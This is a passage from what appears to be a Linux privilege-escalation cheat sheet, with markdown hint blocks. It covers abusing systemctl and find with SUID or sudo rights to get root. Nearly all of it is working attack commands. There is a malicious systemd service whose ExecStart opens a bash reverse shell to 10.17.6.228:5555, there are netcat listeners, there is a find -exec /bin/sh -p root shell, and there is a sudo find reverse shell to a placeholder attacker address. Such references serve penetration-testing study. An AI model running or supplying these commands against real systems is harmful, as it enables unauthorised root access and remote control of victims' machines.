 ```
nc -vlp 1234

# Enable Shell.service File
/usr/bin/systemctl enable /temp/shell.service

# Start The Service
/usr/bin/systemctl start shell
```

{% hint style="info" %}
_**You Should Get the Root Shell On The Attacker Machine**_
{% endhint %}

```
# Example of systemctl suid attack

# Adding a service to the victim machine using the normal shell permission

TF=$(mktemp).service

echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/10.17.6.228/5555 0>&1"
[Install]
WantedBy=multi-user.target' > $TF

systemctl link $TF
systemctl enable --now $TF

# Netcat listener on the attacker machine. Should be able to get root shell!
nc -nlvp 5555
```

## Find Command

### SUID

```
sudo install -m =xs $(which find) .

./find . -exec /bin/sh -p \; -quit
```

### SUDO

```
sudo -l
```

_**Create a file called sample**_

```
/usr/bin/find sample -exec whoami \;

sudo /usr/bin/find sample -exec bash -i \;

sudo find sample -exec bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1 \;
```
